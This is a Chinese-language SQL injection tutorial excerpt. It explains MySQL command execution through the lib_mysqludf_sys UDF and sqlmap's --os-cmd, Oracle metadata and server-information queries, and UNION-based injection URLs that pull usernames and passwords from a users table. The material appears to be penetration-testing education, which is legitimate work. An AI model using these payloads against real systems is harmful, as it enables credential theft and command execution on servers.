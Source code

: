 

### 九、MySQL中的命令执行
MySQL UDF允许用户以C/C++编码的方式扩展MySQL的功能，并且动态的加载到运行中的MySQL服务器中。其原理是通过dlopen、dlsym、dlclose等接口来实现动态的加载动态函数库的目的。
在流行的数据库中，一般都支持从本地文件系统中导入一个共享库文件作为自定义函数。使用如下语法可以创建UDF：CREATE FUNCTION f_name RETURNS INTEGER SONAME shared_library
MySQL中没有执行外部命令的函数，要调用外部的命令，可以通过开发MySQL UDF来实现。lib_mysqludf_sys就是一个实现了此功能的UDF库。可以利用lib_mysqludf_sys提供的几个函数执行系统命令，其中最主要的函数是sys_eval()和sys_exec()
使用方法：
（1）lib_mysqludf_sys.so复制到mysql/lib/plugin目录下。
（2）在mysql中创建函数(根据需要选取)：Create FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';
（3）在select语句调用mkdir命令：Select sys_exec('mkdir -p /home/user1/aaa') 
在自动化注入工具SQLMAP中，已经集成了此功能，选项为--os-cmd

## Oracle
### 一、获取元数据
1.user_tablespaces试图，查看表空间
select tablespace_name from user_tablespaces
2.user_tables试图，查看当前用户的所有表
select table_name from user_tables where rownum = 1
3.user_tab_columns试图，查看当前用户的所有列，例如：查询users表的所有列
select column_name from user_tab_columns where table_name='users'
4.all_users视图，查看oracle数据库的所有用户
select username from all_users
5.user_objects试图，查看当前用户的所有对象（表名称，约束，索引）

select object_name from user_objects


### 二、UNION查询
1.获取列的总数
Oracle规定，每次查询时后面必须跟表名称，因此有union select null,null,null from dual （dual是Oracle的虚拟表）
Oracle是强类型的数据库，不像MySQL那样可以直接union select 1,2,3，因此一般用null代替
2.获取敏感信息
当前用户权限：select * from session_roles
当前数据库版本：select banner from sys.v_$version where rownum=1
服务器出口IP：用utl_http.request可以实现
服务器监听IP：select utl_inaddr.get_host_address from dual
服务器操作系统：select member from v$logfile where rownum=1
服务器sid：select instance_name from v$instance
当前连接用户：select SYS_CONTEXT ('USERENV','CURRENT_USER') from dual
3.获取数据库表及其内容

在得知表的列数之后，可以通过查询元数据的方式查询表名称、列，然后查询数据，
http://www.example.com/news.jsp?id=1 union select username,password,null from users -- 
在查询数据时同样要注意数据类型，否则无法查询，这只能一一测试 (更换username的位置)：
http://www.example.com/news.jsp?id=1 union select username,null,null from users -- 
在得知列数之后，可以通过暴力猜解的方式来枚举表名称：
http://www.example.com/news.jsp?id=1 union select null,null,null from tableName -- 
